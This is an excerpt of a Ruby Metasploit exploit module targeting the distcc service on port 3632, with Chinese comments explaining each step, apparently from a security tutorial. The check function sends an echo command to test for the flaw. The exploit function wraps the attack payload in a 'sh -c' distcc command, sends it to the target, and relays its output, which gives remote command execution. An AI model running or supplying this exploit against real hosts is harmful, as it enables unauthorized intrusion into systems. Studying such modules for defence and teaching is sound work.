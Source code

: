 ```
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Feb 01 2002'
      ))

      # 默认的配置参数，攻击目标端口号为3632
      register_options(
        [
          Opt::RPORT(3632)
        ], self.class)
  end

  # 检查函数，用来测试目标主机的服务是否具有漏洞
  # 检查的方法是发送一条echo命令看服务返回的结果，如果有返回结果则说明漏洞存在
  def check
    r = rand_text_alphanumeric(10)
    connect
    sock.put(dist_cmd("sh", "-c", "echo #{r}"))

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output
    if out.index(r)
      return Exploit::CheckCode::Vulnerable
    end
    return Exploit::CheckCode::Safe
  end

  # 攻击过程
  def exploit
    # 连接目标服务的端口
    connect

    # 构建远程执行的命令，将 payload 放入到执行的脚本中
    distcmd = dist_cmd("sh", "-c", payload.encoded);
    
    # 发送命令到目标服务器
    sock.put(distcmd)
    
    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    # 读取输出信息
    err, out = read_output

    # 判断是 stdout 还是 stderr 然后打印出来
    (err || "").split("\n") do |line|
      print_status("stderr: #{line}")
    end
    (out || "").split("\n") do |line|
      print_status("stdout: #{line}")
    end

    handler
    disconnect
  end

...

```